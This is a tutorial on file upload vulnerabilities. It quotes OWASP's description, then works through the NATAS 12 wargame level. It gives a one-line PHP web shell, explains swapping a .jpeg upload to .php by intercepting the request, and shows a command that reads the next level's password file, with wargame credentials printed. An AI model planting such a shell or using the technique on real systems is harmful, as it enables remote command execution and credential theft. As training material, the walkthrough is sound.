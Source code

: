 # File upload vulnerability

## OWASP Description
Uploaded files represent a significant risk to applications. The first step in many attacks is to get some code to the system to be attacked. Then the attack only needs to find a way to get the code executed. Using a file upload helps the attacker accomplish the first step.

The consequences of unrestricted file upload can vary, including complete system takeover, an overloaded file system or database, forwarding attacks to back-end systems, client-side attacks, or simple defacement. It depends on what the application does with the uploaded file and especially where it is stored.

There are really two classes of problems here. The first is with the file metadata, like the path and file name. These are generally provided by the transport, such as HTTP multi-part encoding. This data may trick the application into overwriting a critical file or storing the file in a bad location. You must validate the metadata extremely carefully before using it.

The other class of problem is with the file size or content. The range of problems here depends entirely on what the file is used for. See the examples below for some ideas about how files might be misused. To protect against this type of attack, you should analyse everything your application does with files and think carefully about what processing and interpreters are involved.

## Impact

### Explore it yourself :
 make a PHP file to test the vulnerability locally in your system with the code mentioned here.
 ## shell.php
```php
<?php
echo system($_GET["cmd"]);
?>
``` 

## Let's try a challenge

NATAS 12 :
 - USERNAME : natas12
 - PASSWORD : EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3 
 
 ![natas12](natas12.1.png)

You can see that we can upload a file here. Let's try to upload a file so that we can get a shell on the website.

Make the shell.php file. We can pass the commands through the URL.


Now let's upload the PHP file. But during the upload, we should change the .jpeg format to .php by intercepting the request.

![natas12](natas12.3.png)

Once you open the link generated by the site, we can start exploiting by giving the commands we desired. Once we get the shell we can do various things.
</br></br>
The password for the next level will be in the folder /etc/natas_webpass/
where natas12 is the file containing the password.

so...
```
.php?cmd=cat  /etc/natas_webpass/natas12
```

Gives the password : jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
</br></br>
![natas12](natas12.5.png)

 This is a basic example of File upload vulnerability.



